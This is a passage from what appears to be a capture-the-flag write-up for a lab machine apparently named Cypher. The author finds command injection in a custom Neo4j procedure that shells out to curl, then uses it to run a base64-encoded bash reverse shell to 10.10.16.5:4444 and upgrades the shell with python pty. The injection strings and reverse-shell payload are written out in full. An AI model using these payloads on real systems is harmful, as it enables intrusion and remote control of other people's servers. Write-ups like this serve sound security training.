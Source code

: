 ![image.png]({{ site.baseurl }}/assets/cypher/image.png)

```bash
        String[] command = {"/bin/sh", "-c", "curl -s -o /dev/null --connect-timeout 1 -w %{http_code} " + url};
```

This is the command being used. This seems to be vulnerable to command injection. Let’s test it out. Let’s call only getUrlStatusCode as a cypher query and inject another command:

```bash
CALL custom.getUrlStatusCode("http://example.com; whoami")
```

![image.png]({{ site.baseurl }}/assets/cypher/image%207.png)

We got back our command. Now that we know we can execute shell commands, let’s get a reverse shell back. Search up reverse shell generator and input our IP and port

```bash
bash -i >& /dev/tcp/10.10.16.5/4444 0>&1
```

Let’s base64 encode this then execute the encoded payload. First save it to a file:

```bash
cat rev.sh | base64 -w0

YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi41LzQ0NDQgMD4mMQo=
```

Now our whole payload is:

```bash
CALL custom.getUrlStatusCode("http://example.com;echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi41LzQ0NDQgMD4mMQo= | base64 -d | bash ")
```

It’s not working. The URL encoding of space to + seem to be causing error. Let’s add extra spaces like this:

```bash
bash -i  >& /dev/tcp/10.10.16.5/4444  0>&1
```

```bash
cat rev.sh | base64 -w0
YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTYuNS80NDQ0ICAwPiYxCg==

CALL custom.getUrlStatusCode("http://example.com;echo YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTYuNS80NDQ0ICAwPiYxCg== | base64 -d | bash ")
```

Now it worked. We now have shell.

![image.png]({{ site.baseurl }}/assets/cypher/image%208.png)

Let’s go to our home directory:

```bash
#let's upgrade our shell
python3 -c 'import pty; pty.spawn("/bin/bash")'

cd ~

neo4j@cypher:~$ pwd
pwd
/var/lib/neo4j
neo4j@cypher:~$ ls -la
ls -la
total 52
drwxr-xr-x 11 neo4j adm   4096 Feb 17 16:39 .
```